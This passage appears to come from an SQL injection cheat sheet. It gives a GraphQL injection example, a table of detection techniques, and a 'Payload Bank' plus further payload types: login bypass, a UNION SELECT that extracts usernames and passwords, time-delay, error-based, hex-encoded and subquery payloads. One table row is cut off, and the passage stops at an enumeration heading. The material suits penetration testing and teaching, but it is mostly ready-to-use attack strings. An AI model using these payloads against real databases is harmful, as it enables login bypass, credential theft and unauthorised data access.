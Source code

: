 
5️⃣ **SQLi in GraphQL**

```json
{
  "query": "{ users(filter: \"' OR '1'='1\") { id name } }"
}
```

### Detection Techniques

| Technique | Description |
| --- | --- |
| Boolean Testing | Compare true vs false response |
| Time Delay | Use `SLEEP`, `WAITFOR DELAY`, `pg_sleep`, etc. |
| Error-Based | Trigger detailed error messages |
| Response Differentials | Slight layout/length changes |
| OOB DNS/HTTP | External call triggered on payload (blind but powerful) |

### **Payload Bank**

| Goal | Payload |
| --- | --- |
| Login bypass | `' OR 'a'='a'--` |
| Data exfil | `' UNION SELECT null, username, password FROM users--` |
| Time delay | `' OR SLEEP(10)--` |
| Error-based | `' AND 1=CONVERT(int, (SELECT @@version))--` |
| Boolean true | `' AND 1=1--` |
| Boolean false | `' AND 1=2--` |

### Other Payload Types

| Type | Example |
| --- | --- |
| Hex Injection | `' UNION SELECT 0x61646D696E, NULL--` |
| Unicode | `‘ OR 1=1 –` |
| Null Byte | `%00` (for old PHP/MySQL combos) |
| Timing Chain | `' OR IF(SUBSTRING(user(),1,1)='r', SLEEP(5), 0)--` |
| Bitwise | `1 |
| Subquery | `' AND (SELECT COUNT(*) FROM users) > 0 --` |

### **Database Permissions Enumeration**
